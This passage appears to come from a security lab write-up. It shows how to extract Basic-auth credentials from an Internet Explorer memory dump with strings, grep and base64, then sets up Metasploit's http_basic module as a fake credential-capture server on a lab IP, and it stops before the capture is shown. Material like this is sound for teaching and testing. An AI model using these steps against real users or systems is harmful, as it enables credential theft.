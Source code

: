> Kali VM
> 
> 1. Place ‘iexplore.DMP’ on the desktop.
> 2. Open command prompt and type: strings /root/Desktop/iexplore.DMP \| grep "Authorization: Basic"
> 3. Select the Copy the Base64 encoded string.
> 4. In command prompt type: echo -ne [Base64 String] \| base64 -d
> 5. Notice the credentials in the output.


To exploit this vulnerability, we use the [**http_basic**](https://www.rapid7.com/db/modules/auxiliary/server/capture/http_basic/) module of Metasploit to generate a prompt for credentials.

We set the field **SRVHOST**, **SRVPORT** with the Kali Machine IP and port that will simulate a web server and the **URIPATH**:
```
msf6 auxiliary(server/capture/http_basic) > show options

Module options (auxiliary/server/capture/http_basic):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   REALM        Secure Site      yes       The authentication realm you'd like to present.
   RedirectURL                   no        The page to redirect users to after they enter basic auth creds
   SRVHOST      10.8.80.159      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      8000             yes       The local port to listen on.
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH      x                no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run capture web server

```

So, we have a fake web server on http://10.8.80.159:8000/x. From the Windows Machine, we connect to that URL to simulate the attack:
